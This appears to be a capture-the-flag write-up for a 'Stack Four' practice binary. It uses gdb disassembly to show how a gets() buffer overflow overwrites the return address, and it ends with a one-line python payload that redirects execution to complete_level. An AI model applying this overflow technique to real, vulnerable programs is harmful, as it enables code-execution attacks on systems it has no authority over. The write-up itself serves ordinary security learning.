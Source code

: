 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Stack Four :
In this level we will overwrite the return address of a function.Lets start by disassembling `main` function.
```bash
(gdb)disas main

Dump of assembler code for function main:
   0x000000000040066a <+0>:	push   rbp
   0x000000000040066b <+1>:	mov    rbp,rsp
   0x000000000040066e <+4>:	sub    rsp,0x10
   0x0000000000400672 <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:	mov    edi,0x400750
   0x000000000040067e <+20>:	call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:	mov    eax,0x0
   0x0000000000400688 <+30>:	call   0x400635 <start_level>
   0x000000000040068d <+35>:	mov    eax,0x0
   0x0000000000400692 <+40>:	leave  
   0x0000000000400693 <+41>:	ret    
End of assembler dump.
```
Lets have a look at the disassembly of `start_level` function.
```bash
(gdb)disas start_level

Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:	mov    rsi,rax
   0x0000000000400658 <+35>:	mov    edi,0x400733
   0x000000000040065d <+40>:	mov    eax,0x0
   0x0000000000400662 <+45>:	call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:	nop
   0x0000000000400668 <+51>:	leave  
   0x0000000000400669 <+52>:	ret    
End of assembler dump.
```

This function will ask us to input data to a buffer at line `0x0000000000400644` after that it will retrive the return address from the stack at line `0x0000000000400649` and store it in local variable at line `0x0000000000400651` to use it in `printf` function.If we overflow the buffer and overwrite the return address of `main` function to `complete_level` function we'll successed in this level.
<br>

Lets break what happen when we call function `start_level` from `main`.
- `call` instruction will push the address of next instruction to the stack and store the address of the first instruction of `start_level` function to `RPI` register.
- 1st line of `start_level` instruction will push the address of the previous function stack frame stored at `RBP` register to the stack.
- 2nd line will store the stack pointer from `RSP` register to `RBP` so that `RBP` register will store the the current stack frame.
-  3rd line will subtract the stack pointer by 0x50 - 0x50 in hex is equal to 80 in decimal- to make space for local variables.
- Last 2 lines the `leave` instruction will retore the value of `EBP` register to it pervious value -the stack frame of `main` function- and deallocates the space on the stack used by `start_level` function. The `ret` instruction is used to return from a function.It pops the return address off the top of stack and transfers control back to the calling function `main`.
<brt>
The stack layout:
```
80 bytes for local variables and temp values needed by start_level function.
8 bytes for the stack frame of start_level function.
8 bytes for the return addres from start_level to main function.
```

Now we now that after 88 byte from the start of the `buffer` is the return address we need to overwrite.Lets find the address of `complete_level` function.

```bash
(gdb) info functions complete_level

All functions matching regular expression "complete_level":

Non-debugging symbols:
0x000000000040061d  complete_level

```
### Solution

```bash
python -c "print('A'*88 + '\x1d\x06\x40\x00\x00\x00\x00\x00')" | ./stack-four 
```